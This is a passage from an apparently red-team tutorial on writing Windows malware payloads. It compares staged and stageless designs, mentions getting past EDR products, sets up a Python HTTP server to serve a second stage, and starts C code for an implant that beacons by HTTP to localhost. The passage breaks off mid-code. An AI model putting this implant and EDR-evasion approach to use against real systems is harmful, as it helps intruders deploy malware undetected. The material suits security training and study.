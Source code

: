 ### Stageless payloads

For stageless payloads we only have to generate one payload and embed our entire second stage implant within. This is the choice for when we don't want to be fetching the entire second stage over the network every time the payload executes. I've had better luck with stageless payloads on more than one occasion since some EDR products don't like a program that immediately uses Wininet to download something and load it into memory.

# Writing our payloads

Before we can start compiling stuff, we'll need something to test it on. For now I'll use three components:

- A basic HTTP server that will serve our second stage payload
- A stager that will grab the second stage payload and execute it
- A second stage payload (main implant) that will just make an HTTP request to our server to indicate success

## The server

To start out for our server we can just use a Python3 one liner since we just need to serve a file and observe requested files. Later we'll write some custom server code.

```jsx
python3 -m http.server 8080
```

## The main payload

Our main payload will use the standard Wininet functions to make a request to the localhost:8080/success endpoint to verify that the code ran successfully.

```c
#include <Windows.h>
#include <WinInet.h>
#include <stdio.h>

#pragma comment(lib, "wininet.lib")

int main() {
    char user_agent[] = "user";
    HINTERNET hInternet = InternetOpenA(user_agent, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL)
    {
        return 1;
    }
    char sitename[] = "localhost";
    int port = 8080;
    HINTERNET hConnect = InternetConnectA(hInternet, sitename, port, NULL, NULL, INTERNET_SERVICE_HTTP, 0, NULL);
    if (hConnect == NULL) {
        return 1;
    }

    const char* acceptTypes[] = { '*','/','*', NULL };

    char method[] = "GET";
    char site_param[] = "success";
    HINTERNET hRequest = HttpOpenRequestA(hConnect, method, site_param, NULL, NULL, acceptTypes, 0, 0);
    if (hRequest == NULL) {
        return 1;
    }

```